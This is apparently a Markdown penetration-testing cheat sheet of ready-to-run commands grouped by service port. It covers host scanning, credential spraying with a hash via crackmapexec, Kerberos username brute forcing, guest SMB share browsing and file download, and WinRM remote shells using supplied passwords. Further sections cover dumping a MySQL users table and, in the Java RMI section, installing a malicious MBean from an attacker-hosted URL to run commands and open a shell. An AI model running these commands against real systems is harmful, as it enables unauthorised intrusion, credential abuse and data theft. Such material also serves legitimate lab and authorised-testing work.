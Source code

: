 ## Scan  
**Discover the hosts on the network (Linux) :**   
`for i in {1..255};do ping -c 1 192.168.110.$i > /dev/null;if [ $? -eq 0];then echo 192.168.110.$i;fi;done`   
`nmap -Pn -p- -v 192.168.110.1-255`   

**Discover the hosts on the network (Windows) :**
Use PowerSploit's function `Invoke-Portscan` : https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1    
`. .\Invoke-Portscan.ps1`  
`Invoke-Portscan -TopPorts 1000 -Hosts 192.168.210.0/24 -oA results`


**Scan all ports on a host and execute nmap scripts (Linux & Windows):**   
`nmap -A -p- -v 192.168.110.55`  

**Spray creds on several hosts (Linux & Windows):**   
`crackmapexec smb <host> -d <domain> -u <username> -p <password> -H <hash> --shares`  
`crackmapexec winrm 192.168.110.0/24 -u Tom -H '8af1903d3c80c3552a84b6ba299db2ea' --local-auth`  


## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
<br/>
## Port 135 - MSRPC  
TODO  
<br/>
## Port 445 - SMB
**List SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152"`  
`smbclient -U ".\Guest" -L //10.10.11.152`   
    
**Browse SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`   
`smbmap -u 'john' -p 'P@ssw0rd123' -d domain.local -H "192.168.110.10" -r "IPC$"`  
      
**Download SMB files (python, Linux & Windows):**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`    
<br/> 
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
<br/>    
## Ports 5985,5986 - WinRM  
Using Evil-WinRM (Linux & Windows) :    
`gem install evil-winrm`  
`evil-winrm –i <host> –u <username> [-p <password>] [-H <hash>]`  
   
Using WinRS.exe (native PowerShell client):  
`$ winrs /r:<host> /u:<domain\username> /p:<password> <command>`  
  
Using native PowerShell :    
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`   
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`  
  
## Port XXXX - MySQL  
**Connect to the MySQL service:**  
`mysql -u <user> -p -h localhost`  
  
**Once connected to the DB:**    
Enumerate the databases:  
`SHOW DATABASES;` 
  
Select a database:  
`use <database>`
    
List the database tables:  
`SHOW TABLES;`  
  
See the content of the 'users' table:  
`DESCRIBE users;`  
  
Extract data (password hashes for example) from the 'users' table:  
`SELECT * FROM users;`  
    
## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`  
